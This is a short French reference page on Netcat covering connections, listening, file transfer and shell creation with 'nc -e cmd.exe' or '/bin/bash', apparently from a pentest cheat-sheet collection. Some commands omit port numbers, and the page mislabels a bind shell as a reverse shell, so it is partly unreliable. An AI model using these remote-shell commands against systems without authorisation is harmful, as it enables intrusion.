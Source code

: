 ```yaml
---
description: Netcat - Outil de Transfert de Données Réseau
---
```


# Netcat

<mark style="color:yellow;">Description :</mark>&#x20;

Netcat, également connu sous le nom de "nc", est un utilitaire puissant en ligne de commande permettant d'établir des connexions TCP/UDP, d'envoyer et de recevoir des données sur le réseau. Il peut être utilisé pour des tâches variées telles que des transferts de fichiers, des tests de port, des shells inversés, etc.

<mark style="color:yellow;">Exemples d'utilisation :</mark>

1. Connexion TCP à un hôte distant sur un port spécifique : `nc <adresse_IP>`
2. Écoute sur un port spécifique pour une connexion entrante : `nc -l -p`
3. Transfert de fichiers : \
   \
   \- Sur la machine destinataire : `nc -l -p > fichier_reçu` \
   \- Sur la machine source : `nc <adresse_IP_dest> < fichier_local`\

4. Création d'un shell inversé : \
   \- Sur la machine destinataire : \
   `nc -l -p -e cmd.exe` (Windows) \
   `nc -l -p -e /bin/bash` (Linux)  \
   \
   \- Sur la machine source : `nc <adresse_IP_dest>`

<mark style="color:yellow;">Options Principales :</mark>

* \-l : Mode écoute pour les connexions entrantes.
* \-p : Spécifier le numéro de port.
* \-e : Exécuter la commande spécifiée après la connexion (shell inversé).
* \-v : active le mode Verbose ( sortie détaillée)
* \-n : Uniquement les numéros IP, aucun nom DNS
